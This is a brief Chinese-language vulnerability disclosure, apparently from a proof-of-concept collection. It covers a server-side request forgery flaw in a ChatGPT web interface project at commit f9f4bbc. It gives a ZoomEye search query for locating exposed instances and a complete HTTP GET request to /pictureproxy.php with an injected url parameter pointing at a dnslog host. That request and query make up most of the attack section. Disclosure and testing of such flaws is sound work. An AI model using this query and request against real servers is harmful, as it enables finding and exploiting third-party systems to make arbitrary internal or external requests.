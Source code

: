 **漏洞介绍**

ChatGPT是一个基于OpenAI ChatGPT项目API的可视化界面站点。

ChatGPT commit f9f4bbc版本存在安全漏洞，该漏洞源于存在服务器请求伪造（SSRF）漏洞。攻击者可利用该漏洞通过向urlparameter注入特制的URL来迫使应用程序执行任意请求。



**影响版本**

ChatGPT commit f9f4bbc版本

**漏洞复现**



1. zoomeye语法

   ```
   app:"ChatGPT"
   ```

 **POC （GET）**

```yaml
GET /pictureproxy.php?url=http://dnslog HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
```

